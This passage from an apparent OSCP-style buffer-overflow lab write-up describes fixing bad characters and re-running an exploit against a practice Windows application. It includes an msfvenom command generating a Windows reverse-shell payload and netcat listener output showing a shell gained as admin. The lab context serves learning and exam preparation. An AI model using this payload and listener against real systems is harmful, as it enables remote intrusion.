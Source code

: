 And now we start all over again, closing out of everything and re-prepping the environment to run the exploit. The one major difference, is we need to start a listener on our machine in our to pick-up the reverse shell (be sure to use the same port you used in the msfvenom command).

First Attempt Failed{: .warning }

Our first run of the exploit failed. Where did we go wrong?  
In reading through the exercise description, we see this line:
> Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

Assuming this is the problem, I revisit my bad characters (and will consider NOPs later). I remove every second bad character in sequence (e.g. \x07\x08 are together, I remove x08). My new MSFVenom command reads as follows:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.13.192 LPORT=443 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
I did also have to go back up to "Finding a Jump Point" to adjust my bad characters there, also updating the 'retn' variable in my exploit.  

I update the exploit.py to include the new payload variable, leaving everything else the same, and walk through the process once more. This time, I do receive a shell on the other end:
```
nc -nvlp 443                                                                                              1 ⨯
listening on [any] 443 ...
connect to [10.13.13.192] from (UNKNOWN) [10.10.180.173] 49341
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

Looks like there's a few more practice examples. I'm sure there will be unique quirks to each, so we'll continue on and walk through those as well.
